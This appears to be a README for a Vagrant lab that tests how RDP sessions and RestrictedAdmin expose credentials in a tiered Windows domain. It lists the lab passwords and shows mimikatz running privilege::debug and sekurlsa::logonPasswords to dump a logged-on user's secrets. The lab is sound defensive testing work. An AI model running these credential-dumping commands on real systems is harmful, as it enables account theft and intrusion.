 Lab
-

This lab contains:
* A Win2016 domain "windomain.local" with:
    * User `Pik Achu <pikachu@windomain.local>`, Tier 1 Administrator, password `Bonjour1!`
    * Domain Administrator, password `vagrant`
* A Win2016 DC
* A Win2016 server `SRV`, considered in the Tier-1, with *RestrictedAdmin* enabled
* A Win10 client `Client`, considered as the administration station for Tier-1

Setup
-

```
$ vagrant up dc
$ vagrant up srv
$ vagrant up client
```

This lab needs an Internet connection only for the download of Mimikatz (once the box have been retrieved). If this is not an option, comment the `get-mimikatz.ps1` invocation.

If one of the different machine does not setup correctly, one can `destroy` and re-`up` it.

Usage
-

Once the Lab is setup, we can test the expected behavior of RDP sessions.

Let's connect from Client to SRV with `pikachu:Bonjour1!`:
```
Run > mstsc
Connect to `srv`
```

![mstsc](doc/client_mstsc.png "Launching MSTSC")

Once connected with RDP, we launch a `cmd.exe` with administrator privileges (simulating an attacker already on the machine), and we grab the credential in memory with `mimikatz`:
```
C:\Windows\system32>C:\Tools\Mimikatz\x64\mimikatz.exe

  .#####.   mimikatz 2.2.0 (x64) #18362 Mar  8 2020 18:30:37
 .## ^ ##.  "A La Vie, A L'Amour" - (oe.eo)
 ## / \ ##  /*** Benjamin DELPY `gentilkiwi` ( benjamin@gentilkiwi.com )
 ## \ / ##       > http://blog.gentilkiwi.com/mimikatz
 '## v ##'       Vincent LE TOUX             ( vincent.letoux@gmail.com )
  '#####'        > http://pingcastle.com / http://mysmartlogon.com   ***/

mimikatz # privilege::debug
Privilege '20' OK

mimikatz # sekurlsa::logonPasswords
```

As expected, we get back the authentication secrets of `pikachu`:
```
Authentication Id : 0 ; 975893 (00000000:000ee415)
Session           : RemoteInteractive from 2
User Name         : pikachu
Domain            : WINDOMAIN
Logon Server      : DC
Logon Time        : 4/23/2020 3:43:17 PM
SID               : S-1-5-21-1901789854-418502547-2738234678-1105
        msv :
         [00000003] Primary
         * Username : pikachu
         * Domain   : WINDOMAIN
```